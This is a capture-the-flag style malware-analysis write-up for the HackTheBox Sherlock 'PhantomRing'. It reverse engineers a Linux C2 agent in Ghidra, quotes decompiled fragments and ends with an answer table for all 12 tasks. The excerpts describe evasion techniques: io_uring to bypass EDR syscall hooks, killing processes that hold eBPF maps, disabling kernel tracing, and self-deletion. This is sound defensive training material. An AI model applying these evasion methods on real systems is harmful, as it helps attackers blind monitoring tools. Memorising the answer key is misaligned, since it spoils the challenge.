







## Table of Contents
1. [Reconnaissance](#reconnaissance)
2. [Binary Triage](#binary-triage)
3. [Static Analysis with Ghidra](#static-analysis-with-ghidra)
4. [Command and Control](#command-and-control)
5. [Command Handler Analysis](#command-handler-analysis)
6. [User Enumeration](#user-enumeration)
7. [Privilege Escalation Enumeration](#privilege-escalation-enumeration)
8. [eBPF Evasion](#ebpf-evasion)
9. [Self-Destruction](#self-destruction)
10. [Answers Summary](#answers-summary)

---


## Reconnaissance

**Sherlock:** [PhantomRing on HackTheBox](https://app.hackthebox.com/sherlocks/PhantomRing)

The scenario provides a suspicious binary named `agent`, found in `/var/tmp`. Initial triage confirms it is an ELF 64-bit PIE executable, not stripped.

```bash
$ file agent
agent: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1f617f2ea259a7ec724d7bbc01627982dc2f0495, for GNU/Linux 3.2.0, not stripped
```

The SHA256 hash is obtained with OpenSSL:

```bash
$ openssl sha256 agent
SHA2-256(agent)= 2d7b1b2178f76c26893b2a56cbf9b36700235259e76b893d53817d5b66b634a5
```

**Task 1 Answer:** `2d7b1b2178f76c26893b2a56cbf9b36700235259e76b893d53817d5b66b634a5`

---

## Binary Triage

Running `strings` reveals several interesting indicators, including a hardcoded IP address, command strings, and paths.

```bash
$ strings agent
...
192.168.56.1
...
/var/run/utmp
...
/usr/bin
...
/sys/kernel/debug/tracing/tracing_on
/sys/kernel/debug/tracing/set_event
/sys/kernel/debug/tracing/current_tracer
...
/proc/self/exe
...
anon_inode:bpf-map
...
get 
recv 
users
netstat
kick
privesc
sdestruct
killbpf
exit
...
```

The hardcoded C2 IP is immediately visible: `192.168.56.1`.


**Task 2 Answer:** `192.168.56.1`

---

## Static Analysis with Ghidra

The binary is imported into Ghidra. Since it is not stripped, function names such as `main`, `process_cmd`, `cmd_killbpf`, etc., are available. Auto-analysis completes successfully.



### Main Function

The `main` function initializes an `io_uring` queue and sets up a TCP connection to the C2 server.

```c
iVar2 = io_uring_queue_init(0x10, auStack_100f8, 0);
...
uStack_10106 = htons(0x115d);
...
inet_pton(2, "192.168.56.1", auStack_10104);
...
sleep(0x78);
```

- The port is passed to `htons` as `0x115d`. Converting to decimal: `0x115d = 4445`.
- The reconnect delay is `0x78` hex, which equals `120` decimal.



**Task 3 Answer:** `4445`  
**Task 4 Answer:** `120`

---

## Command and Control

The malware heavily abuses the Linux **io_uring** kernel interface. This is evident from the imported functions and decompiled code:

- `io_uring_queue_init`
- `io_uring_get_sqe`
- `io_uring_prep_connect`
- `io_uring_submit`
- `io_uring_wait_cqe`
- `io_uring_cqe_seen`
- `io_uring_queue_exit`

By using `io_uring`, the agent performs network and file operations asynchronously without relying on traditional syscalls like `read`, `write`, `connect`, or `recv`. This helps evade EDR solutions that hook those syscalls.

**Task 6 Answer:** `io_uring`

---

## Command Handler Analysis

The `process_cmd` function dispatches incoming commands. Decompiling it reveals all supported command strings.

```c
iVar1 = strncmp(param_3,"get ",4);
if (iVar1 == 0) { cmd_get(...); }
else {
  iVar1 = strncmp(param_3,"recv ",5);
  if (iVar1 == 0) { cmd_recv(...); }
  else {
    iVar1 = strncmp(param_3,"users",5);
    if (iVar1 == 0) { cmd_users(...); }
    else {
      iVar1 = strncmp(param_3,"ss",2);
      if (iVar1 != 0) {
        iVar1 = strcmp(param_3,"netstat");
        if (iVar1 != 0) {
          iVar1 = strncmp(param_3,"ps",2);
          if (iVar1 == 0) { cmd_ps(...); }
          else {
            iVar1 = strncmp(param_3,"me",2);
            if (iVar1 == 0) { cmd_me(...); }
            else {
              iVar1 = strncmp(param_3,"kick",4);
              if (iVar1 == 0) { cmd_kick(...); }
              else {
                iVar1 = strncmp(param_3,"privesc",7);
                if (iVar1 == 0) { cmd_privesc(...); }
                else {
                  iVar1 = strcmp(param_3,"sdestruct");
                  if (iVar1 == 0) { cmd_selfdestruct(...); }
                  else {
                    iVar1 = strncmp(param_3,"killbpf",7);
                    if (iVar1 == 0) { cmd_killbpf(...); }
                    else {
                      iVar1 = strncmp(param_3,"exit",4);
                      if (iVar1 == 0) { cmd_exit(...); }
                      else { send_all(...,"[*] 404 Command not found [*]\n",0x1d); }
                    }
                  }
                }
              }
            }
          }
        }
      }
      cmd_ss(...);
    }
  }
}
```

The distinct command strings are:

1. `get `
2. `recv `
3. `users`
4. `ss`
5. `netstat`
6. `ps`
7. `me`
8. `kick`
9. `privesc`
10. `sdestruct`
11. `killbpf`
12. `exit`

Note: `ss` and `netstat` both invoke `cmd_ss`, but they are separate command strings accepted by the agent. Therefore, the total number of different commands is **12**.



**Task 5 Answer:** `12`

---

## User Enumeration

The `cmd_users` function reads the file `/var/run/utmp` to list logged-in users. This is confirmed by strings and the decompiled code.

```c
local_6074 = read_file_uring(param_1,"/var/run/utmp",...);
...
```



**Task 7 Answer:** `/var/run/utmp`

---

## Privilege Escalation Enumeration

The `cmd_privesc` function scans `/usr/bin` for potential SUID binaries.

```c
local_6170 = opendir("/usr/bin");
...
snprintf(local_4018,0x200,"/usr/bin/%s",local_6168->d_name);
...
snprintf(...,"Potential SUID binaries:\n");
```



**Task 8 Answer:** `/usr/bin`

---

## eBPF Evasion

The `cmd_killbpf` function attempts to disable tracing and kill processes using eBPF maps. It searches `/proc/[pid]/maps` for the string `anon_inode:bpf-map`.

```c
pcVar4 = strstr(local_4018,"anon_inode:bpf-map");
if (pcVar4 != (char *)0x0) {
    __pid = atoi(local_6150->d_name);
    if (1 < (int)__pid) {
        iVar2 = kill(__pid,9);
        ...
    }
}
```

It also attempts to disable tracing by writing to three files. The first one is:

```c
local_6138[0] = "/sys/kernel/debug/tracing/tracing_on";
local_6138[1] = "/sys/kernel/debug/tracing/set_event";
local_6138[2] = "/sys/kernel/debug/tracing/current_tracer";
```



**Task 9 Answer:** `anon_inode:bpf-map`  
**Task 10 Answer:** `/sys/kernel/debug/tracing/tracing_on`

---

## Self-Destruction

The `cmd_selfdestruct` function deletes the agent's own binary. It first determines its own executable path by reading the symlink `/proc/self/exe`.

```c
readlink("/proc/self/exe", local_6118, 0x100);
...
unlink(local_6118);
puts("Agent will self-destruct");
```

The command string that triggers this behavior is compared using `strcmp` in `process_cmd`:

```c
iVar1 = strcmp(param_3,"sdestruct");
if (iVar1 == 0) {
    cmd_selfdestruct(param_1,param_2);
}
```

    

**Task 11 Answer:** `/proc/self/exe`  
**Task 12 Answer:** `sdestruct`

---

## Answers Summary

| Task | Answer |
|------|--------|
| 1 | `2d7b1b2178f76c26893b2a56cbf9b36700235259e76b893d53817d5b66b634a5` |
| 2 | `192.168.56.1` |
| 3 | `4445` |
| 4 | `120` |
| 5 | `12` |
| 6 | `io_uring` |
| 7 | `/var/run/utmp` |
| 8 | `/usr/bin` |
| 9 | `anon_inode:bpf-map` |
| 10 | `/sys/kernel/debug/tracing/tracing_on` |
| 11 | `/proc/self/exe` |
| 12 | `sdestruct` |

*Writeup by mikias*